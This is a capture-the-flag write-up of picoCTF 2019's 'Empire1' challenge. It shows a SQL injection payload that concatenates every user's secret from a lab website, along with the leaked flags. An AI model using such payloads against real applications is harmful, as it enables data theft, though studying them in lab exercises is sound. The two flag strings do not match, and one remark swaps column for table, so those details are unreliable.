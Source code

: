 # Empire1 - 400 points
## Description

Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. `https://2019shell1.picoctf.com/problem/4155/` ([link](https://2019shell1.picoctf.com/problem/4155/)) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:4155

## Flag
```
picoCTF{wh00t_it_a_sql_inject29944a88}
```

## Solution

The SQL injection vulnerability through the Todo titles is fairly obvious. A simple `'` is enough to cause an SQL syntax error.

Our winning payload was:

```
' || (SELECT GROUP_CONCAT(secret) FROM user) || '
```

and the output was:

```
Very Urgent: Likes Oreos.,Know it all.,picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},picoCTF{wh00t_it_a_sql_injectd75ebff4},...
```

Easy! The table name `user` was easy to guess and the column name `secret` was exfiltrated through other means / payloads. Technically you don't need to know the column name and can just use a `*` in place of the table name.

Note: Out of all of the `Empire\d` challenges, I have to say, this one was the easiest to solve.
